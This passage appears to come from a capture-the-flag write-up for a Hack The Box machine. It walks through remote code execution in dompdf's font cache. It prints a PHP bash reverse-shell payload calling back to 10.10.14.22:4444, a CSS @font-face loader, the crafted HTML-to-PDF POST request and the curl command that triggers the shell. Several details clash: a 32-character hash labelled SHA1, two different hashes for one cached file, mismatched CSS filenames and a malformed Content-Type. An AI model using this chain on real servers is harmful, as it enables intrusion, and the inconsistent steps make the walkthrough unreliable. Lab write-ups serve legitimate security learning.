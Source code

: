 {% code title="exploit_font.php" %}
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'");?>
```
{% endcode %}

{% code title="exploit.css" %}
```css
@font-face{
        font-family:'DejaVuSerif';
        src:url('http://10.10.14.22/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
}
```
{% endcode %}

Then, we need to find the SHA1 hash of the link to our server, in this case mine is `http://10.10.14.22/exploit_font.php`, which becomes `a9e48a0532165b117a0ca8132955581e`.&#x20;

Then, we need to send this HTTP POST request to the API:

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/jsonS
Content-Length: 25

{"html":"<link rel=stylesheet href='http://10.10.14.22/exploit.css'>"}
```

This would make the server send a GET request for both files:

```
10.129.87.208 - - [19/Feb/2023 11:12:27] "GET /mal.css HTTP/1.0" 200 -                       
10.129.87.208 - - [19/Feb/2023 11:12:27] "GET /exploit_font.php HTTP/1.0" 200 -
```

On the machine, our file is now saved in the fonts directory as `exploitfont_normal_d2706fefee906d9288c3b6c4bcddfe5a.php`. After this, all we need to do is send a GET request to this URL: `curl http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_a9e48a0532165b117a0ca8132955581e.php`.

This would give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
